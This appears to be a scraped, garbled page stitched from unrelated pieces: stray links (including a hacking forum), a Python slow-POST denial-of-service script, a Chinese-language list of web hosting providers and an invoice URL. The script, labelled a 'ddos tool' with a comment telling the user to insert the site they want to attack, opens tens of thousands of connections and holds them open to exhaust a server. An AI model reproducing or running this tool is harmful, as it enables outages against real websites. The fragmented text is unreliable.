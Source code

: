 https://drive.google.com/file/d/1dF8K5RzVT6EC9I84LTdp5bCC0vn2LbnG/view

https://github.com/fluttercandies/wechat_flutter

#!/usr/bin/env python// .ly https://sinister   hz2vAkv#aLfZ   https://hackforums.net/member.php
#https://paper.seebug.org/142/
#https://core.ac.uk/download/pdf/154333223.pdf
import socket
import time
import threading
#Pressure Test,ddos tool
#---------------------------
MAX_CONN=30000
#改写下面的网址为你想攻击的网站！！！！！！！！！
PORT=80
HOST="www..com"
PAGE="/recitewords/api"
#---------------------------
buf=("POST %s HTTP/1.1\r\n"
"Host: %s\r\n"
"Content-Length: 10000\r\n"
"Cookie: dklkt_dos_test\r\n"
"\r\n" % (PAGE,HOST))
socks=[]
def conn_thread():
    global socks
    while len(socks)<MAX_CONN:
        s=socket.socket (socket.AF_INET,socket.SOCK_STREAM)
        try:
            s.connect((HOST,PORT))
            s.send(buf.encode('utf-8'))
            #print ("[+] Send buf OK!,conn=%d\n"%len(socks))
            socks.append(s)
        except Exception as ex:
            print ("[-] Could not connect to server or send error:%s"%ex)
            time.sleep(2)
#end def
def send_thread():
    global socks
    while True:
        for s in socks:
            try:
                s.send("f".encode('utf-8'))
                #print ("[+] send OK! %s"%s)
            except Exception as ex:
                print ("[-] send Exception:%s\n"%ex)
                socks.remove(s)
                s.close()
                time.sleep(1)
#end def
conn_th=threading.Thread(target=conn_thread,args=())
send_th=threading.Thread(target=send_thread,args=())
conn_th.start()
send_th.start()
while(True):
    print("存活连接数：%d "%len(socks))
    time.sleep(1)
    
    
    
 CertifiedHosting - 成立于1999年，CertifiedHosting提供共享虚拟主机，经销主机托管和独立服务器。
NameCheap - Namecheap成立于2000年，是目前互联网上最大的域名注册商之一。自成立以来，Namecheap提供了许多服务，包括共享主机，经销主机托管，VPS主机和专用服务器。
BitcoinWebHosting - BitcoinWebHosting是专门提供主机服务给比特币社区的美国主机商。

https://clients.hostsailor.com/viewinvoice.php?id=171054
